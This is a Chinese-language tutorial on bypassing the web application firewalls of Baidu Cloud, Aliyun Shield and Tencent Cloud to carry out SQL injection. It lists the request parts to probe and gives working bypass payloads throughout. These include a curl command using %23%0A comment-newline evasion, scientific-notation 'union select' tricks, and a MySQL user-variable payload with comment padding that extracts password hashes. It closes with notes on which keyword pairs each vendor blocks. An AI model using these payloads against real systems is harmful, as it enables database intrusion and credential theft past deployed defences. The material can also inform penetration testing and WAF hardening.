 - 我们在整体测试一个waf时，可测试的点都有哪些？

  GET、POST、HEADER那么我们专门针对一个waf进行测试的时候就要将这几个点全测试个遍，header中还包括Cookie、X-Forwarded-For等，往往除了GET以外其他都是过滤最弱的。



# 0x02 各大厂商

正则逃逸： 过 滤 了 `%23%0a` 却 不 过 滤`%2d%2d%0a`

## 1. 百度云

**curl：**

```shell
curl http://192.168.211.237/test.php -d "id=1 union%23%0Aselect user,password from users"
```

**科学计数法：**

```
http://192.168.211.237/test.php?id=1e1union select user,password from users
```

**%23%0a**:

```
http://192.168.211.237/test.php?id=1e1union%23%0aselect user,password from users
```



## 2.阿里云盾

过滤了union+select+from，那我**select+from+union**呢？使用Mysql自定义变量的特性 就可以实现，这里举一个阿里云盾的案例：

```sql
select user_login from wp_users where id=1|@pwd:=(select user_pass from wp_users where id=1) union select @pwd;
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyyb3erd5pj20wz0gnwjb.jpg)

由于后面在调用自定义变量的时候需要用到union+select，所以还需要绕过这个 点。`/*ddd*/union/*ddd*/select ` 就可以了。

Bypass Payload：

```sql
id=1|@pwd:=(select username from users where id=4)/*ddd*/union/*ddd*/select null,@pwd
```



## 3.腾讯云

**腾讯云安全怎么检测sql注入**

- union+select拦截
- select+from拦截
- union+from不拦截

